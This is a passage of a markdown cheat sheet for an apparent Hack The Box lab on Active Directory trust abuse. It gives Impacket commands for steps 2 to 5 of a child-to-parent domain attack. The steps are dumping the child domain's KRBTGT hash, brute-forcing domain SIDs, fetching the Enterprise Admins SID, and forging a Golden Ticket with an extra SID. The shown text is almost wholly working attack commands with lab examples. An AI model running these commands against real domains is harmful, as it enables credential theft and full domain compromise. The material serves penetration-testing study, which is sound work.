 #### **2. Dump KRBTGT Hash (using `secretsdump.py`)**

To dump the KRBTGT hash for the child domain, use the following command:

```bash
secretsdump.py <child-domain>/<user>@<child-dc-ip> -just-dc-user <child-domain>/krbtgt
```

Example:

```bash
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

#### **3. Brute Force SID for the Child Domain (using `lookupsid.py`)**

Perform SID brute-forcing to retrieve the child domain SID and associated RIDs for users and groups:

```bash
lookupsid.py <domain>/<user>@<child-dc-ip>
```

Example:

```bash
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240
```

**Filter for Domain SID:**

```bash
lookupsid.py <domain>/<user>@<child-dc-ip> | grep "Domain SID"
```

#### **4. Retrieve Enterprise Admin SID (from Parent Domain)**

Run `lookupsid.py` against the parent domain DC to retrieve the SID of the Enterprise Admins group:

```bash
lookupsid.py <domain>/<user>@<parent-dc-ip> | grep -B12 "Enterprise Admins"
```

Example:

```bash
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```

#### **5. Construct Golden Ticket (using `ticketer.py`)**

Use `ticketer.py` to generate the Golden Ticket for the target user (e.g., `hacker`) with the gathered SIDs:

```bash
ticketer.py -nthash <KRBTGT-hash> -domain <child-domain> -domain-sid <child-domain-SID> -extra-sid <parent-domain-SID> <target-user>
```

